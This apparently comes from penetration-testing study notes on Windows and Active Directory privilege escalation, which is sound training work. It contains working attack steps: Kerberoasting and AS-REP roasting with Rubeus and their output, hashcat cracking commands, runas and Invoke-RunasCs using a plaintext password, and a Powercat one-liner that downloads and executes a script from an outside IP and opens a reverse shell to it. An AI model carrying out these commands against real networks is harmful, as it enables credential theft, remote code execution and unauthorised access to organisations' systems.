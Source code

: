 # Escalating Privilege

## Abusing Active Directory Authentication

Sometimes a way of escalating privileges is by moving laterally. We can take advantage of the same techniques and tools we would use for moving laterally to escalate our privileges.

### Kerberoasting with Rubeus

{% embed url="https://github.com/GhostPack/Rubeus" %}

If Rubeus is not installed we'll have to switch to our Windows dev box and compile via VIsual Studio. We can transfer the binary back to our Kali host then to our victim.

```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

### Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
```



### AS-REP Roasting with Rubeus

```powershell
PS C:\Users\Public> .\Rubeus asreproast /nowrap
.\Rubeus asreproast /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0 


[*] Action: AS-REP roasting

[*] Target Domain          : relia.com

[*] Searching path 'LDAP://DC02.relia.com/DC=relia,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : michelle
[*] DistinguishedName      : CN=Michelle Smith,CN=Users,DC=relia,DC=com
[*] Using domain controller: DC02.relia.com (172.16.103.6)
[*] Building AS-REQ (w/o preauth) for: 'relia.com\michelle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$michelle@relia.com:0C5BDBDC
```

### Cracking with Hashcat

```bash
kali@kali sudo hashcat -m 18200 michelle.asrep /usr/share/wordlists/rockyou.txt --force
```

## Checking Groups - net user&#x20;

Another way we can check groups a user belongs to is using `net user`

```powershell
PS C:\Users\tony> net user tony
User name                    tony
Full Name                    Nothing Stops
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2023 1:57:34 PM
Password expires             Never
Password changeable          6/16/2023 1:57:34 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
```

## Runas Command

If we've gained access to a plaintext password, it's possible to use the [`runas` ](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\))command to execute commands as that user.

```powershell
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
PS C:\Users\steve> 
```

## Invoke-Runas

If we've gained access to a plaintext password, but don't have a full shell, we can use the [`Invoke-Runas`](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) command that's part of the[ `PowerShell-Suite`](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master). Here is an updated and new version.&#x20;

{% embed url="https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1" %}

```powershell
PS> import-module ./Invoke-RunasCs.ps1
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```

### Spawn reverse shell

Powercat

```powershell
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd"
```



## Insecure Privileges

The first thing to do when popping a Windows shell is to check the user privileges.

```powershell
C:\Users\svc_mssql>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled

```

SeImpersonatePrivilege

SeManageVolumePrivilege

SeDebugPrivilege

SeTakeOwnershipPrivilege
